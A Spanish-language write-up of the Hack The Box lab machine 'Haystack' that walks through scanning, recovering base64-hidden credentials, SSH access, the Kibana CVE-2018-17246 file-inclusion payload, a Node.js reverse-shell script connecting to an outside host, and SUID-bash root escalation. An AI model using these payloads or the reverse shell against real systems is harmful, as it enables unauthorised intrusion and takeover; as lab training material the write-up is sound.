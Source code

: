 # Máquina Haystack

### Intrusión

Comenzamos con nuestros comandos de nmap

```
sudo nmap -p- --open -sS -n -Pn --min-rate 5000 -vvv 10.10.10.115 -oG allPorts
```
```
sudo nmap -p22,80,9200 -sCV 10.10.10.115 -oN Targeted
```
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 23:39 CEST
Nmap scan report for 10.10.10.115
Host is up (0.042s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2a8de2928b14b63fe42f3a4743238b2b (RSA)
|   256 e75a3a978e8e728769a30dd100bc1f09 (ECDSA)
|_  256 01d259b2660a9749205f1c84eb81ed95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.12.2
9200/tcp open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: DELETE

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```
Encontramos una imagen al entrar en el puerto 80

Nos la descargamos y la movemos a nuestro directorio de trabajo
```
mv ~/Downloads/Descargas/needle.jpg .
```

Si usamos exiftool no encontramos gran cosa:


*ExifTool Version Number         : 12.16*
*File Name                       : needle.jpg*
*Directory                       : .*
*File Size                       : 179 KiB*
*File Modification Date/Time     : 2023:04:21 23:42:24+02:00*
*File Access Date/Time           : 2023:04:21 23:42:24+02:00*
*File Inode Change Date/Time     : 2023:04:21 23:42:38+02:00*
*File Permissions                : rw-r--r--*
*File Type                       : JPEG*
*File Type Extension             : jpg*
*MIME Type                       : image/jpeg*
*JFIF Version                    : 1.01*
*Exif Byte Order                 : Big-endian (Motorola, MM)*
*X Resolution                    : 96*
*Y Resolution                    : 96*
*Resolution Unit                 : inches*
*Software                        : paint.net 4.1.1*
*User Comment                    : CREATOR: gd-jpeg v1.0 (using IJG JPEG v80), quality = 90.*
*Image Width                     : 1200*
*Image Height                    : 803*
*Encoding Process                : Baseline DCT, Huffman coding*
*Bits Per Sample                 : 8*
*Color Components                : 3*
*Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)*
*Image Size                      : 1200x803*
*Megapixels                      : 0.964*


Si aplicamos el comando string sin embargo:

```
strings -n 10 needle.jpg
```
Encontramos una cadena en base 64:

*bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==*

La decodeamos:

```
echo 'bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==' | base64 -d
```

Y encontramos que: `"la aguja en el pajar es "clave"%"`

Nada wfuzz tipico

wfuzz -c -t 200 --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.115:9200/FUZZ

000000687:   200        0 L      1 W        338 Ch      "quotes"
000003642:   200        0 L      1 W        1010 Ch     "bank"
000007004:   200        0 L      1 W        2 Ch        "*checkout*"                                                                                      
000016413:   200        0 L      1 W        4136 Ch     "*"                                                                                               
000015463:   200        0 L      1 W        2 Ch        "*docroot*"

http://10.10.10.115:9200/quotes/_search?pretty=true&size=1000

curl 'http://10.10.10.115:9200/quotes/_search?pretty=true&size=1000' > haystack.txt

cat haystack.txt| grep "clave"

"quote" : "Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
"quote" : "Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "
❯ echo 'cGFzczogc3BhbmlzaC5pcy5rZXk=' | base64 -d
pass: spanish.is.key%                                                                                                                                        ❯ echo 'dXNlcjogc2VjdXJpdHkg' |base64 -d
user: security %

ssh connect

sudo -l nothing

[security@haystack home]$ cat /proc/net/tcp | grep '00000000:0000 0A'
   0: 00000000:0050 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 38071 1 ffff93b16e2407c0 100 0 0 10 0                     
   1: 00000000:23F0 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 38070 1 ffff93b16e240f80 100 0 0 10 0                     
   2: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 37910 1 ffff93b16e240000 100 0 0 10 0                     
   3: 0100007F:15E1 00000000:0000 0A 00000000:00000000 00:00000000 00000000   994        0 260693 1 ffff93b16e2464c0 100 0 0 10 0  
0.0.0.0:80
0.0.0.0:9200
0.0.0.0:22
127.0.0.1:5601

ssh> -L 5601:localhost:5601


https://github.com/mpgn/CVE-2018-17246

http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/kraken.js

[security@haystack tmp]$ cat kraken.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.12", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
[security@haystack tmp]$ ls
hsperfdata_root  systemd-private-0e42240d40d449479f1827df5cdc85f1-chronyd.service-uWVFDs	vmware-root
jruby-6234	systemd-private-0e42240d40d449479f1827df5cdc85f1-elasticsearch.service-ux1hQZ	vmware-root_6238-700485133
kraken.js	systemd-private-0e42240d40d449479f1827df5cdc85f1-nginx.service-McmzxV
[security@haystack tmp]$ cat kraken.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.12", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();



bash-4.2$ ls -la /bin/bash
-rwsr-xr-x. 1 root root 964608 oct 30  2018 /bin/bash

bash -p
whoami
root
